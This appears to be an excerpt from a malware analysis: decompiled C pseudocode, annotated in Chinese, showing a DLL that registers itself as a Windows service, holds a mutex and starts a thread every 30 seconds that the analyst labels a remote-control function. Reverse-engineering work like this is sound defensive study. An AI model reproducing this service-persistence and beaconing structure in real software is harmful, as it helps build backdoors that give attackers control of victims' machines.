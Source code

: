 - ```c
    if ( v0 )
    {
      v0 = OpenMutexA(0x100000u, 0, Name);    //就是DLL的名字作为互斥体名字
      if ( !v0 )
      {
        MutexA = CreateMutexA(0, 0, Name);
        v0 = RegisterServiceCtrlHandlerA(ServiceName, HandlerProc);    //注册服务控制句柄FastUserSwitchingCompatibility
        hServiceStatus = v0;
        if ( v0 )
        {
          SetServiceStatus_func(2u);    //服务正在启动
          SetServiceStatus_func(4u);    //服务正在运行
          sub_10003F70(0);    //网络连接
          SetServiceStatus_func(3u);    //服务正在停止
          SetServiceStatus_func(1u);    //服务已停止
          ReleaseMutex(MutexA);
          LOBYTE(v0) = CloseHandle(MutexA);
        }
      }
    }
    return v0;
  }
  ```

- ```c
  int __stdcall sub_10003F70(int a1)
  {
    HANDLE Thread; // eax
    struct WSAData WSAData; // [esp+10h] [ebp-190h] BYREF
  
    WSAStartup(0x202u, &WSAData);    //初始化 Winsock 库，Winsock 2.2
    sub_10001BD8(&unk_100262D0);
    time1 = GetTickCount() - 30000;    //时间减去30s
    while ( ServiceStatus.dwCurrentState != 1 )    //服务停止就跳出
    {
      if ( ServiceStatus.dwCurrentState == 3 )    //服务正在停止就break
        break;
      if ( GetTickCount() - time1 > 0x7530 )    //隔30s
      {
        if ( ThreadId )
        {
          sub_10001D39(&unk_100262D0, 20483, 0, 0, dword_1002661D, 0, 0);    //是释放内存吗？
        }
        else
        {
          Thread = CreateThread(0, 0, sub_10003BD7, 0, 0, &ThreadId);    //sub_10003BD7远程控制函数
          CloseHandle(Thread);
        }
        dword_10026621 = GetTickCount();
      }
      Sleep(1u);
    }
    sub_10001BE4(&unk_100262D0);    //结束
    WSACleanup();
    return 0;
  }
  ```
